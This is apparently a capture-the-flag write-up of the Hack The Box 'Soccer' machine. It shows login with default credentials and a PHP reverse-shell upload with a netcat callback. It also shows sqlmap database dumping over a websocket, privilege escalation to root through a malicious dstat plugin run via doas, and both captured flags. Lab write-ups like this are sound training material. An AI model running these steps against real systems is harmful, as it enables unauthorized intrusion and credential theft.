 ```yaml
---
title: "Soccer from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Soccer from HTB
`nmap`gave this:
```bash
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-title: Soccer - Index
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp  open     xmltec-xmlmail?
```
add this to `/etc/hosts`:
```
10.10.11.194 soccer.htb
```
Then access the site and perform `directory search`with `ffuf or gobuster`and you will discover
```
soccer.htb/tiny
```
Directory and there is an login page.  Name is `Tiny File Manager`Search that and in `Github`repository you will find  https://github.com/prasathmani/tinyfilemanager
where
```
Default username/password: admin/admin@123 and user/12345
```
Try it. And you will login after using `admin admin@123`
Find `/tiny> /uploads`
You can upload `reverse-shell-php.php`and then click uploaded file `to execute it`.
URL should look somewhat like this: `http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&view=reverse.php`
After that you will get connection `on netcat`
```bash
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.194] 50044
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 14:12:31 up 13 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@soccer:/$
```
You need to use `list`in this directory
```bash
ls -la /etc/nginx/sites-enabled/
total 8
drwxr-xr-x 2 root root 4096 Dec  1  2022 .
drwxr-xr-x 8 root root 4096 Nov 17  2022 ..
lrwxrwxrwx 1 root root   34 Nov 17  2022 default -> /etc/nginx/sites-available/default
lrwxrwxrwx 1 root root   41 Nov 17  2022 soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
```
There it is you found an needed `subdomain`which is `soc-player.soccer.htb`add it to `/etc/hosts`:
```
10.10.11.194 soc-player.soccer.htb
```
Access that subdomain. Then `signup`and perform `sql injection`with `sqlmap`:
```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 -- level 5 --risk 3 --batch
```
After minutes you will get `database: soccer_db` read it:
```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump --batch
```
And you will get name and password:
player ------- PlayerOftheMatch2022
Connect to `ssh`with that.
***
User Flag is: 0a9918ca7ce3703124ef1338bf6c2696
***
`sudo -l`gave nothing.
Looking for files with the `SUID` bit set, we stumble upon the `/usr/bin/doas binary`, which is an alternative to the more commonly used `sudo` binary:
```bash
find / -type f -perm -4000 2>/dev/null
```
This will list this:
```
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
```
Then read
```bash
cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
This means we can use `dstat`with root privileges.
Reading manual for `dstat`we find this:
```
FILES
       Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/
```
So we must create an `dstat_shell.py`in directory where we can.
I created it in `/usr/local/share/dstat`with codes:
```
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_shell.py
```
Then execute it like this:
```
/usr/local/bin/doas /usr/bin/dstat --pwn
```
It will spawn `root shell`.
***
Root Flag is: df13042d98034989daa88dc8d5586ec4
***
![](/assets/images/Screenshot from 2024-08-13 18-54-03.png)

